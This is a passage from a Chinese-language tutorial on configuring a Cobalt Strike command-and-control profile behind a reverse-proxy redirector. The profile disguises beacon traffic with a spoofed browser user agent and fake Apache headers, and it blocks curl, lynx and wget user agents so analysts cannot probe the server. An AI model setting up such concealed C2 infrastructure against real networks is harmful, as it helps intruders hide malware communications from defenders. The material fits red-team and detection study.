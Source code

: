 不正确的规则都重定向到反向代理域名的正常应用上。

![不符合重写规则.png](assets/1698895384-2931a35a796dd6baf649423efe1f2ca0.png)

**C2 Profile HTTP 请求配置**

注意此时创建 Stageless Payload 还无法上线，因为请求不符合重写规则一定会被重定向，包括后面的 Beacon 通信也是一样。

这里写 Profile 定制 Stager 和 Beacon 的 HTTP 请求以符合反代重写规则。

```plaintext
# 全局变量
set sleeptime "10000";
set jitter    "50";  
set useragent "Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37";  
set host_stage "false"; # Do not use staging. Must use stageles payloads, now the default for Cobalt Strike built-in processes


# 所有 HTTP 请求响应配置
http-config {
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
    # Use this option if your teamserver is behind a redirector
    set trust_x_forwarded_for "true";
    # Block Specific User Agents with a 404 (added in 4.3)
    set block_useragents "curl*,lynx*,wget*";
}


# 设置 HTTPS 监听器证书
https-certificate {
    set keystore "www.example.com.store";
    set password "123456";
}


```